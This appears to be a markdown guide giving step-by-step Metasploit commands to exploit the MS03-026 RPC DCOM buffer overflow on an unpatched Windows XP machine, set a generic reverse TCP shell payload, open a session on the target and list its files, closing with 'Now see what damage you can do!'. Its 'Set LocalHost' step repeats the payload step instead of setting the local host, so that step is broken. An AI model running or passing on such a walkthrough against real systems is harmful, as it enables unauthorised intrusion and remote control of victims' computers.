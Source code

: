 # Example Exploit 
There are multiple exploits for an un-patched windows xp box. Here is a guide on how to do one of them:

## Step 1 - Metasploit
Ok, we're going to be using metasploit for this attack. To get started run the following in a terminal:

`sudo msfconsole`
Be patient, it takes awhile for Metasploit to load all of its modules. The current version of Metasploit has 823 exploits and 250 payloads.

## Step 2 - Find the exploit 

One of the most reliable hacks is on the ubiquitous Windows XP system with the RPC DCOM. It's a buffer overflow attack that enables the attacker to execute any code of their choice on the owned box (note Microsoft's comment under impact of vulnerability). Microsoft identifies it as MS03-026 in their database of vulnerabilities. In our case, we will use it to open a reverse shell on our target system.

Now run `msf > search dcom` 
This will find the exploit

![Image of the mfs terminal](images/634704378236167812.jpg)

## Set the exploit 
Now let's tell Metasploit what exploit we want to use.
Type use and the name of our exploit, exploit/windows/dcerpc/ms03_026_dcom.

`msf > use exploit/windows/dcerpc/ms03_026_dcom`

## Set the options
Now that we've chosen our exploit, we can ask Metasploit what our options are. By typing show options, Metasploit will list our options in executing this exploit.

`msf > show options`

## Set Remote host
Metasploit will now ask us for the RHOST. This will be the IP address of the remote host or the machine we're attacking. In our case, it's 10.0.0.3. Use the actual IP address of the machine you are attacking. Tools such as nmap can help in identifying the IP address of the machine you are attacking. Notice in the picture above that Metasploit tells us that we will be using (binding) port 135.

`msf > set RHOST 10.0.0.3`

## Show Payloads
Next, we check to see what payloads are available for this exploit. Type show payloads at the Metasploit prompt:

`msf > show payloads`

## Set Payload
Now that we can see what payloads are available, we can select the generic/shell_reverse_tcp by using the Metasploit console set command. If successful, this will establish a remote shell on the target system that we can command.

`msf > set PAYLOAD generic/shell_reverse_tcp`

## Set LocalHost
Now that we can see what payloads are available, we can select the generic/shell_reverse_tcp by using the Metasploit console set command. If successful, this will establish a remote shell on the target system that we can command.

`msf > set PAYLOAD generic/shell_reverse_tcp`

## Exploit 
Now we command Metasploit to exploit the system:

`msf > exploit`

## Open a shell! 
Type the command sessions –i 1 to open a command shell on the XP system that will appear on your Metasploit console.

`sessions –i 1`

To confirm that the command shell is on the Windows XP system, type dir to get a directory listing on the Windows XP system that you now own!

`C: >dir`

Congrats! Now see what damage you can do! 
